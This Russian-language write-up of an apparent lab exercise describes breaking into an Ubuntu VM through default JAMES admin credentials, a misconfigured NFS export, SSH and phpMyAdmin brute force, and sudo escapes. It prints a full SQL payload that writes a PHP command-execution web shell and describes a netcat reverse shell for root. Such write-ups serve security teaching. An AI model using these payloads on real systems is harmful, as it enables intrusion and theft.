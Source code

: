 # Взлом виртуальной машины с ubuntu сервером

Для начала я просканировал виртуальную машину с помощью nmap, что бы выявить уязвимости в установленном ПО и открытых портах.

![scan](screenshots/james/scan.png)

## Уязвимость james

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине присутствует JAMES Remote Admin. Я попробовал ввести логин/пароль root/root (так как это логин и пароль по умолчанию установленный в James Remode Admin). Админ не поменял этот пароль, и в итоге я смог войти в пользователя root. Зная уязвимость james remote admin (такую как возможность переходить в предыдущую директорию), я добавил пользователя /etc/bash_completion.d, благодаря чему у меня появится возможность запускать команды на машине удалённо при входе пользователя в систему. 

![setup](screenshots/james/command_setup.png) 

Была настроена команда `uname -a` (она выводит на экран детальную информацию об системе), вывод которой передавался на ip адрес атакующей машины, на порт 3333, который на ней прослушивался.

![listen](screenshots/james/listen.png)

Теперь при входе пользователя в систему атакующей машине будет передана детальная информация об АРМ пользователя.

## Уязвимость nfs

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине на порте 2049 стоит уязвимая весрия nfs. Эти выводы были сделаны из:

* Подбробного описания версии nfs, при помощи команды `rpcinfo`.

![nfs_ports_and_version](screenshots/nfs/nfs_ports.png)

* Результата настроенного сканера на уязвимости nfs.

![scanner](screenshots/nfs/exploit.png)

Это значит, что сервер позволяет монтировать директории (которые сканер определил как уязвимые) сторонними пользователями. Из этого следует, что мы можем примонтировать эти директории без каких либо проблем.

![mounting](screenshots/nfs/mounting.png) 

Теперь мы знаем пароль пользователя `user1`, так как мы смогли найти его в файлах пользователя. Однако нам нужен доступ к root на непосредственно самой машине (потому что область нашего воздействия лишь директория /home, да и мы не можем запускать наши утилиты на атакуемой машине, например `uname -a` выдаст информацию о нашей системе, а не о примонтированной), что бы скомпрометировать важную информацию с сервера. Для этого я загрузил полезную нагрузку в виде си исходника, скомпилировал её и дал ей атрибут доступа, с помощью которого она сможет запускаться от имени того, кто её создал, а не того, кем она была запущена.

![nfs_payload](screenshots/nfs/nfs_payload.png)

Осталось только зайти по ssh на `user1`, и запустить полезную нагрузку. Поскольку нам уже известен пароль, процесс входа можно пропустить в виду его очевидности.

![whoami_user](screenshots/nfs/whoami_user.png)

Как видите, пользователю `user1` запрещено заходить на root пользователя, по этому мы запускаем полезную нагрузку, в результате выполнения которой нам обеспечивается доступ к root.

![whoami_root](screenshots/nfs/whoami_root.png) 

Мы выполнили главную задачу: получили полный доступ к системе.

## Уязвимость ssh

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине установлена программа `ssh` на порту 22. Попробуем воспроизвести брутфорс атаку и подобрать логин и пароль к ssh.

![exploit](screenshots/ssh/exploit.png)

Атака прошла успешно.

![success](screenshots/ssh/success.png)

После того, как мы подобрали пароль - можно войти в ssh.

![ssh_login](screenshots/ssh/ssh_login.png)

Поскольку мы не можем зайти от рута, пробуем искать обходные варианты. Для начала посмотрим, какие программы нам разрешено запускать от имени суперпользователя.

![list](screenshots/ssh/list.png)

Как мы видим, мы можем запустить vi и python.

### Vi

Тут всё просто: в vi мы можем использовать консольные команды прямо в программе, собственно так мы и делаем. На следующем скриншоте вывод команды `whoami` и `cat /home/server/Important.txt`.

![vi](screenshots/ssh/vi/vi_success.png)

### Python

Здесь нам нужно импортировать библиотеку os, а затем с помощью модуля "system" запустить команду `cat /home/server/Important.txt`.

![py](screenshots/ssh/py/py_success.png)


## Уязвимость phpmyadmin

По результатам [сканирования](screenshots/james/scan.png) видно, что на машине установлен сервер apache на порте 80. С помощью утилиты `nikto` пытаемся узнать что установлено на сервере.

![nikto](screenshots/webshell/nikto.png)

Из результата исполнения программы можно сделать вывод, что на сервере установлен phpmyadmin. Попытаемся подобрать пароль с помощью метода brootforce. Для начала настроим эксплойт.

![exploit_brootforce](screenshots/webshell/exploit_brootforce.png)

После запуска эксплойт успешно завершил атаку.

![success](screenshots/webshell/exploit_success.png)

Теперь заходим в phpmyadmin.

![php_login](screenshots/webshell/phpmyadmin_login.png)

Затем нам надо сделать sql инъекцию с подготовленным кодом, которая создаст файл на сервере, позволяющий запустить консоль, исполняющюю команды на серверном устройстве. Вот сам код:


``` SQL 
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\"
ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\"
VALUE=\"Execute\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?>
</pre></BODY></HTML>"

INTO OUTFILE '/var/www/phpmyadmin/cmd.php'
```

Внедрение SQL инъекции прошло успешно.

![inject_success](screenshots/webshell/code_injected.png)

Первоначальный доступ получен. Далее нам надо получить удалённый доступ к терминалу непосредственно из терминала атакующей машины, а после root права.

Для начала узнаем подброную информацию о системе через веб оболочку.

![list](screenshots/webshell/sysinfo.png)

Теперь попробуем найти эксплойт к этой версии дистрибутива линукса ubuntu.

![searchsploit](screenshots/webshell/search_exploit.png)

Осталось узнать где его можно достать.

![info](screenshots/webshell/exploit_info.png)

После того, как у нас на руках есть готовый эксплойт нужно найти директории, у которых есть права доступа 777, что бы можно было гарантировано дать право на запуск эксплойту.

![dirsearch](screenshots/webshell/dirsearch.png)

Как мы видим, на сервере присутствует директория scripts, в которой можно безпрепятственно менять параметры доступа у файлов. Необходимо загрузить эксплойт. Открываем локальный сервер на python на атакующей машине в директории с эксплойтом, а затем скачиваем его в директорию scripts.

![get](screenshots/webshell/pyserver_get.png)

Попытка скачивания эксплойта с сервера прошла успешно.

![display_server](screenshots/webshell/pyserver.png)

Компилируем, выдаём максимальные права доступа и запускаем эксплойт с целью проверки работоспособности в веб оболочке.

![execution](screenshots/webshell/exploit_executed.png)

Вредоносный код завершил свою работу успешно. Теперь это всё надо сделать на терминале атакующей машины для получения полного доступа к системе. Для начала откроем порт 8888 на прослушивание входящих соеденений, затем запустим файл /bin/bash с помощью утилиты `netcat` на атакующей машине.

![bash](screenshots/webshell/bash_executed.png)

Теперь осталось проделать операцию запуска эксплойта ещё раз в терминале атакующей машины.

![success](screenshots/webshell/webshell_success.png)

Мы получили полный доступ к системе и скомпрометировали важную информацию с сервера.